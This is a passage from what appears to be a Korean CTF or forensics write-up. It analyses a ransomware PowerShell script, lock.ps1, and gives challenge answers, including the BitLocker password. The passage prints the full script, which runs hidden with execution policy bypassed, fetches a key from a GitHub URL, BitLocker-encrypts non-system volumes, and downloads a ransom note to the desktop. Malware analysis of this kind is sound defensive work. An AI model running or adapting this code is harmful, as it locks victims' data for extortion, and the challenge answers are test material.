 <br>
<br>

# 4. 암호화 쉘스크립트 분석(lock.ps1)

<br>

BitLocker로 암호화했을 때의 CipherSuite를 뜯어보자.

1. 암호화에 사용된 응용: BitLocker
2. 암호화에 사용된 키값: `https://raw.githubusercontent.com/imnothackerkkk/key/main/secret`에서 다운로드된 컨텐츠
    1. 앞에서 이미 확인했지만, `Giveme the100BTC!!!` 이다.
3. 암호화 루틴: AES128

이제 두번째 문항도 해결했다.


> <mark>(1) dll인젝션에 사용된 dll 파일명 (.dll 포함): version.dll</mark>
>
> <mark>(2) 비트라커의 평문키: Giveme the100BTC!!!</mark>
>
> (3) 암호화된 파티션 내부 설계도면에 적힌 가격


이제 암호화된 파티션 내부 설계도면을 확보해 보자.

<br>

```powershell
# lock.ps1

Start-Process powershell -ArgumentList "-NoProfile -ExecutionPolicy Bypass -Command & { $scriptBlock }" -WindowStyle Hidden
Set-ExecutionPolicy Bypass -Scope LocalMachine -Force
$rawUrl = "https://raw.githubusercontent.com/imnothackerkkk/key/main/secret"; 
$fileContent = Invoke-RestMethod -Uri $rawUrl
$volumes = Get-BitLockerVolume
$osVolume = (Get-WmiObject Win32_OperatingSystem).SystemDrive
$key = ConvertTo-SecureString -String $fileContent -AsPlainText -Force
foreach ($volume in $volumes) {
    if ($volume.MountPoint -ne $osVolume) {
        Enable-BitLocker -MountPoint $volume.MountPoint -EncryptionMethod Aes128 -PasswordProtector $key
	Disable-BitLockerAutoUnlock -MountPoint $volume.MountPoint
        Get-BitLockerVolume -MountPoint $volume.MountPoint
    }
}

$Url1 = "https://raw.githubusercontent.com/imnothackerkkk/key/main/ransomnote.jpg"
$Url2 = "https://raw.githubusercontent.com/imnothackerkkk/key/main/readme.txt"
$desktopPath = [System.Environment]::GetFolderPath("Desktop")
$destinationPath1 = Join-Path -Path $desktopPath -ChildPath "note.jpg"
$destinationPath2 = Join-Path -Path $desktopPath -ChildPath "readme.txt"
Invoke-WebRequest -Uri $Url1 -OutFile $destinationPath1
Invoke-WebRequest -Uri $Url2 -OutFile $destinationPath2
$imageFileName = "note.jpg"
$imagePath = Join-Path -Path $desktopPath -ChildPath $imageFileName
Add-Type -TypeDefinition @"
using System;
using System.Runtime.InteropServices;
public class Wallpaper
{
    [DllImport("user32.dll", CharSet = CharSet.Auto)]
    public static extern int SystemParametersInfo(int uAction, int uParam, string lpvParam, int fuWinIni);
}
"@
```